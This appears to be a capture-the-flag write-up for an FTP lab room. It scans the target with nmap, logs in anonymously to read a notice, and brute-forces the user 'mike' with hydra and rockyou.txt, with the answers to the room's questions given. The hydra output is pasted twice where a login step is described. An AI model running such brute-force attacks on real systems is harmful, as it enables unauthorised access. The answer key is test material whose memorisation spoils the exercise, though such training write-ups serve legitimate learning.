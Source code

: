 ![](https://miro.medium.com/max/1400/1*nPq72s8kz8yTbfxdHSPR3w.png)

Enumerating FTP
---------------

Spin up your target VM and let’s do a quick nmap scan to find what ports are open

```
#nmap -Pn -sV -sC 10.10.94.141Starting Nmap 7.60 ( [https://nmap.org](https://nmap.org) ) at 2022-03-01 15:21 GMT  
Nmap scan report for ip-10-10-94-141.eu-west-1.compute.internal (10.10.94.141)  
Host is up (0.0015s latency).  
Not shown: 999 closed ports  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 2.0.8 or later  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
|\_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC\_NOTICE.txt  
| ftp-syst:   
|   STAT:   
| FTP server status:  
|      Connected to ::ffff:10.10.136.57  
|      Logged in as ftp  
|      TYPE: ASCII  
|      No session bandwidth limit  
|      Session timeout in seconds is 300  
|      Control connection is plain text  
|      Data connections will be plain text  
|      At session startup, client count was 1  
|      vsFTPd 3.0.3 - secure, fast, stable  
|\_End of status  
MAC Address: 02:BC:72:67:5E:0B (Unknown)  
Service Info: Host: WelcomeService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

There’s only one port open but the question expects two ports to be open

1.  How many **ports** are open on the target machine?

```
2
```

2\. What **port** is ftp running on?

```
21
```

3\. What **variant** of FTP is running on it?

```
vsftpd
```

You can answer the next question by looking at the nmap scan results

4\. What is the name of the file in the anonymous FTP directory?

```
PUBLIC\_NOTICE.txt
```

We can see that the FTP is configured to allow anonymous logins, that means we login without a password and a username ‘anonymous’

```
\# ftp 10.10.94.141  
Connected to 10.10.94.141.  
220 Welcome to the administrator FTP service.  
Name (10.10.94.141:root): anonymous  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp>
```

Now we are connected, use the command **HELP** to see all the available commands. Let’s open a file called PUBLIC\_NOTICE.txt

```
ftp> get PUBLIC\_NOTICE.txt -  
\===================================  
MESSAGE FROM SYSTEM ADMINISTRATORS  
\===================================Hello,I hope everyone is aware that the  
FTP server will not be available   
over the weekend- we will be   
carrying out routine system   
maintenance. Backups will be  
made to my account so I reccomend  
encrypting any sensitive data.Cheers,Mike
```

5\. What do we think a possible username could be?

```
mike
```

Exploiting FTP
--------------

Now we know the possible username and let’s try to brute force the login with hydra

```
\# hydra -t4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.94.141 ftp  
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) starting at 2022-03-01 15:50:36  
\[DATA\] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task  
\[DATA\] attacking ftp://10.10.94.141:21/  
\[VERBOSE\] Resolving addresses ... \[VERBOSE\] resolving done  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "123456" - 1 of 14344398 \[child 0\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "12345" - 2 of 14344398 \[child 1\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "123456789" - 3 of 14344398 \[child 2\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "password" - 4 of 14344398 \[child 3\] (0/0)  
\[21\]\[ftp\] host: 10.10.94.141   login: mike   password: password  
\[STATUS\] attack finished for 10.10.94.141 (waiting for children to complete tests)  
1 of 1 target successfully completed, 1 valid password found  
Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) finished at 2022-03-01 15:50:41
```

and we found the password is “password” and let’s login to find our flag.

```
\# hydra -t4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.94.141 ftp  
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) starting at 2022-03-01 15:50:36  
\[DATA\] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task  
\[DATA\] attacking ftp://10.10.94.141:21/  
\[VERBOSE\] Resolving addresses ... \[VERBOSE\] resolving done  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "123456" - 1 of 14344398 \[child 0\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "12345" - 2 of 14344398 \[child 1\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "123456789" - 3 of 14344398 \[child 2\] (0/0)  
\[ATTEMPT\] target 10.10.94.141 - login "mike" - pass "password" - 4 of 14344398 \[child 3\] (0/0)  
\[21\]\[ftp\] host: 10.10.94.141   login: mike   password: password  
\[STATUS\] attack finished for 10.10.94.141 (waiting for children to complete tests)  
1 of 1 target successfully completed, 1 valid password found  
Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) finished at 2022-03-01 15:50:41
```

Use the below command to get the answer for the last question.

```
\# get ftp.txt - 
```

Thank you for reading.

